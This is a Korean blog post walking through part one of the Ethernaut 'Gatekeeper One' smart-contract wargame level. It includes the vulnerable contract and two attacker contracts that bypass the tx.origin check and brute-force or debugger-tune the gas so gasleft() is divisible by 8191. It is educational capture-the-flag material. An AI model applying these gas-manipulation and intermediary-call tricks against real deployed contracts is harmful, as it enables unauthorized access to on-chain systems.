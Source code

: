 ```yaml
---
emoji: 🧢
title: (Ethernaut 취약점 13) Gatekeeper One - 1 
date: '2022-01-17 11:53:00'
author: 한성원
tags: ethernaut GatekeeperOne vulnerability
categories: 취약점분석
---
```



# 👋 Gatekeeper One
__Difficulty 5/10__

- 승리 조건
- 코드 분석
- 풀이
순서로 진행 될 것이다.

이번 포스트는 특별하게 2편으로 나누어 진행한다. 
이번편은 gate1과 gate2를 다룰 예정이다.
- - -

## 승리 조건
- Gatekeeper을 지나 entrant로 등록하기

- - -

## 코드 분석
GatekeeperOne contract에서스 3개의 gate가 존재한다. gate는 모두 modifier로 되어있다. 즉 3개의 modifier의 조건을 만족시키면 된다.   
분석은 주석에!

```solidity
contract GatekeeperOne {

    using SafeMath for uint256;
    address public entrant;

    // msg.sender과 tx.origin이 다르면 진행
    modifier gateOne() {
        require(msg.sender != tx.origin);
        _;
    }

    // gasleft()의 8191의 배수이면 진행
    modifier gateTwo() {
        require(gasleft().mod(8191) == 0);
        _;
    }

    // _gateKey가 type casting관련 3가지 조건에 만족하면 진행
    modifier gateThree(bytes8 _gateKey) { 
        require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
        require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
        require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");
        _;
    }

    // modifier를 포함한 함수: 이 함수를 통해 내가 entrant가 될 수 있다.
    function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
        entrant = tx.origin;
        return true;
    }
}

```
- - -


## 풀이
이 문제에서 우리의 목표는 3개의 gate를 무사히 지나 entrant로 등록하는 것이다. 우선 gate1은 이전에 풀었던 [Telephone](https://holyhansss.github.io/ethernaut/4_telephone_ethernaut/4_telephone_ethernaut/)과 유사했다. 아래의 조건은 우리가 가지고 그냥 내가 직접 transaction을 보내지 않고 다른 contract를 만들어 사용하면 된다. gate1은 쉽게 풀렸다.

```solidity
require(tx.origin != msg.sender)
```
<br/>

그렇다면 gate2번은 어떻게 pass할 수 있을까? 아래의 코드에서 중요한 점은 gasleft이다. [gasleft()](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html)는 gasleft()가 실행되는 당시의 gas가 얼마나 남았는지 return해주는 함수이다. 그렇다면 어떻게 그 당시 남은 gas를 8191의 배수로 만들 수 있을까?

```solidity
modifier gateTwo() {
    require(gasleft().mod(8191) == 0);
    _;
}
```
<br/>

이 문제를 완벽히 이해하고 풀기까지 이틀정도 소요된 것 같다ㅜ 

gas 관련 부분에 대한 나의 지식이 부족했던지라 구글을 사용해서 답을 찾아서 이해하는 식으로 진행했다. 

우리는 여기서 reqire문이 실행될때 남은 gas가 8191의 배수가 되게 해야한다. Openzeppline에서 찾은 답은 아래와 같았다. 2번째 gate를 풀기 위해 될때까지 보내는 식인 것 같다. 공부를 마친 후 지금에서 보면 어느정도 이해가 된다. 하지만 내가 문제를 풀 당시에는 아래 코드를 제대로 이해하지 못해 내가 이해할 수 있는 방법으로 문제를 풀었다.

```solidity
contract GatekeeperOneAttack {

  constructor(address GatekeeperOneContractAddress) public {
    bytes8 key = bytes8(uint64(uint16(tx.origin)) + 2 ** 32);
    
    // NOTE: the proper gas offset to use will vary depending on the compiler
    // version and optimization settings used to deploy the factory contract.
    // To migitage, brute-force a range of possible values of gas to forward.
    // Using call (vs. an abstract interface) prevents reverts from propagating.
    bytes memory encodedParams = abi.encodeWithSignature(("enter(bytes8)"),
      key
    );

    // gas offset usually comes in around 210, give a buffer of 60 on each side
    for (uint256 i = 0; i < 120; i++) {
      (bool result, ) = address(GatekeeperOneContractAddress).call{gas: i + 150 + 8191 * 3}(encodedParams);
      if(result)
        {
        break;
      }
    }
  }
}
```
<br/>

나는 gate2를 풀때 require문에서 계산되는 시기에 남은 gas의 값을 정확하게 얻어내는 방식으로 진행했다. 여기에서는 remix의 dubugger를 통해 opcode와 그에 대한 정보를 사용했다. 우선 내가 만든 contract는 이랬다. 나는 [이 글](https://medium.com/coinmonks/ethernaut-lvl-13-gatekeeper-1-walkthrough-how-to-calculate-smart-contract-gas-consumption-and-eb4b042d3009)에서 방법을 배워 적용했다!   

<br/>
새로운 contract를 만들어 GatekeeperOne.enter()를 call 했다면 gate 1은 성공한 것이다. 그리고 콘솔창을 보면 아래와 같은 transaction 실패표시가 뜰 것이다. 그리고 저 부분을 클릭하고 transaction hash를 찾아 remix debugger에 넣으면 된다.

![gate2_transaction_fail](./gate2_transaction_fail.png)
<br/>

이후 debugger를 돌리다보면 아래와 같이 "gasleft().mod" 가 하이라이트 될 때가 있다. 그때 Opcode는 PUSH에 있을 것이고 Step details를 보면 remaining gas를 확인 할 수 있다. 이를 역계산해서 필요한gas만큼 8191의 배수에 더해 transaction을 보내면 된다. 
![debuge_gate2](./debug_gateTwo.png)

아래는 내가 해결할때 사용한  코드이다!

```solidity
contract GetEntrant {
    
    GatekeeperOne gatekeeperOne;

    constructor(address _gatekeeperOne) public {
        gatekeeperOne = GatekeeperOne(_gatekeeperOne);
    }
    
    function enter(bytes8 _gateKey) public {
        //254 gas는 내가 debug를 통해 계산했다.
        gatekeeperOne.enter{gas: 8191*5+254}(_gateKey);
    }
  
}
```
<br/>
너무 길어져서 다음 글에 type conversion 설명과 gate3에 대한 설명을 쓰도록 하겠다:)



- - -
## 기타 정보
- rinkeyb network ether faucet: https://faucets.chain.link/rinkeby
- ethernaut: https://ethernaut.openzeppelin.com/
- remix IDE: https://remix.ethereum.org
- Storage & Casting: https://medium.com/coinmonks/solidity-variables-storage-type-conversions-and-accessing-private-variables-c59b4484c183


```